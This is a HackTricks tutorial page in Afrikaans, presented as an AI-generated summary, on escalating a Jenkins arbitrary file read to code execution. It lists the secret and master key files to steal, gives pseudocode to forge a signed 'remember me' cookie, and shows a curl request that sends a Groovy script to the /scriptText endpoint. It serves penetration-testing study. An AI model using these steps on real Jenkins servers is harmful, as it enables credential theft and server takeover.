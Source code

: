# Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In hierdie blogpos is dit moontlik om 'n wonderlike manier te vind om 'n Local File Inclusion kwesbaarheid in Jenkins in RCE te transformeer: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dit is 'n AI-gegenereerde opsomming van die deel van die pos waar die vervaardiging van 'n arbitrêre koekie misbruik word om RCE te verkry deur 'n plaaslike lêer te lees totdat ek tyd het om 'n opsomming op my eie te skep:

### Aanval Voorvereistes

* **Kenmerk Vereiste:** "Onthou my" moet geaktiveer wees (standaard instelling).
* **Toegangsvlakke:** Aanvaller benodig Algemene/Lees regte.
* **Geheime Toegang:** Vermoë om beide binêre en teksinhoud van sleutel lêers te lees.

### Gedetailleerde Exploitasiestap

#### Stap 1: Gegevensinsamelings

**Gebruikersinligting Herwinning**

* Toegang tot gebruikerskonfigurasie en geheime van `$JENKINS_HOME/users/*.xml` vir elke gebruiker om te versamel:
* **Gebruikersnaam**
* **Gebruikerssaad**
* **Tydstempel**
* **Wagwoord hash**

**Geheime Sleutel Uittrekking**

* Trek kriptografiese sleutels uit wat gebruik word om die koekie te teken:
* **Geheime Sleutel:** `$JENKINS_HOME/secret.key`
* **Meester Sleutel:** `$JENKINS_HOME/secrets/master.key`
* **MAC Sleutel Lêer:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Stap 2: Koekie Valsmaking

**Token Voorbereiding**

*   **Bereken Token Vervaldatum:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Voeg een uur by die huidige tyd
```
{% endcode %}
*   **Konkateer Gegevens vir Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Sleutel Ontsleuteling**

*   **Ontsleutel MAC Sleutel Lêer:**

```javascript
key = toAes128Key(masterKey)  // Convert meester sleutel na AES128 sleutel formaat
decrypted = AES.decrypt(macFile, key)  // Ontsleutel die .mac lêer
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Handtekening Berekening**

*   **Bereken HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Bereken HMAC met die token en MAC sleutel
tokenSignature = bytesToHexString(mac)  // Convert die MAC na 'n hexadesimale string
```

**Koekie Kodering**

*   **Genereer Finale Koekie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodeer die koekie data
```
{% endcode %}

#### Stap 3: Kode Uitvoering

**Sessie Verifikasie**

* **Haal CSRF en Sessie Tokens:**
* Maak 'n versoek na `/crumbIssuer/api/json` om `Jenkins-Crumb` te verkry.
* Vang `JSESSIONID` uit die antwoord, wat saam met die onthou-my koekie gebruik sal word.

**Opdrag Uitvoeringsversoek**

*   **Stuur 'n POST Versoek met Groovy Skrip:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy skrip kan gebruik word om stelselniveau opdragte of ander operasies binne die Jenkins omgewing uit te voer.

Die voorbeeld curl-opdrag wat verskaf word demonstreer hoe om 'n versoek aan Jenkins te maak met die nodige koptekste en koekies om arbitrêre kode veilig uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
